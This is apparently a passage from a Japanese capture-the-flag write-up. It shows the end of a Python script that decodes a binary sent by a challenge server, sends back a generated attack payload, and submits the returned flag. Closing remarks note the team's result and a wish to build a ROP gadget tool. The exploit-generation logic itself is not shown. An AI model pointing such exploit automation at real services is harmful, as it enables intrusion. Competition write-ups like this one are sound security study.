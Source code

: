 ``` python
    if tag == "IMAGE":
        b64_image = value
    else:
        print linebuf,
        return

    # decode ELF binary and save it
    bin_image = binascii.a2b_base64(b64_image)
    bin_fname = "bin_%s.elf" % md5.md5(bin_image).hexdigest()
    with open(bin_fname, "wb") as binfile:
        binfile.write(bin_image)

    # Let's analyze it!
    print "Analyze %s" % bin_fname
    attack_payload = base64.b64encode(solve(bin_fname))
    p.sendline(attack_payload)

    rslt = p.recvline()
    print rslt,

    p.close()
    flag = rslt.strip().split(':')[1]
    log.info('flag: %s', flag)
    submit(flag)

if __name__ == '__main__':
    main()
```

## その他

-   良問だった
-   本戦に行けるらしい
-   $10000$と$30000$はすぐで、$20000$も何も変えてないので早く、そしてこれらを動かした後は座ってるだけだった
-   チーム人数の暴力というところはあった
-   クールなROPガジェットを探すようなツールを作りたいと思いつつ後回しにしてたが、早くやらないとなあという気持ち
